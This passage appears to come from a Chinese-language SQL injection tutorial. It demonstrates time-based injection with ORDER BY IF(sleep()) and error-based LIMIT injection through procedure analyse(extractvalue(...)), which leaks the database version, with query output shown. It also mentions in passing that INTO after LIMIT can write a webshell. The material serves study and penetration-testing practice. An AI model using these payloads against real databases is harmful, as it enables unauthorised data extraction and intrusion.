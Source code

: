 **延时注入 order by if()**

**不推荐，因为每条数据都会执行延时，能用其他方法就不使用延时**

```mysql
MariaDB [test]> select id from message order by IF(1,sleep(3),0);
+----+
| id |
+----+
|  1 |
|  2 |
|  3 |
|  5 |
+----+
4 rows in set (12.214 sec)
```

**延时了12s左右**

#### Limit注入

**先看看Mysql 5 中的select语法**

```mysql
SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

**可以看到`LIMIT`后可接`PROCEDURE`与`INTO`用于写webshell使用，这里不多说，我们重点来看`PROCUDURE`，而且这里与版本有关，新版本的在`	PROCUDURE`中已不再支持使用`SELECT`**

**老版本(为测试具体版本号，估计在5.7以前)可以若没有`order by` 后面可接`union`，有`order by`可用`benchmark`或者报错注入，详情参考[【SQL注入】mysql limit 注入](http://vinc.top/2017/04/01/[sql注入]mysql-limit-注入/)**

**报错注入**

```mysql
MariaDB [test]> select * from user where id>0 order by id LIMIT 0,1;
+----+----------+--------+
| id | username | passwd |
+----+----------+--------+
|  1 | admin    | admin  |
+----+----------+--------+
1 row in set (0.001 sec)

MariaDB [test]> select * from user where id>0 order by id LIMIT 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':10.3.11-MariaDB'
```
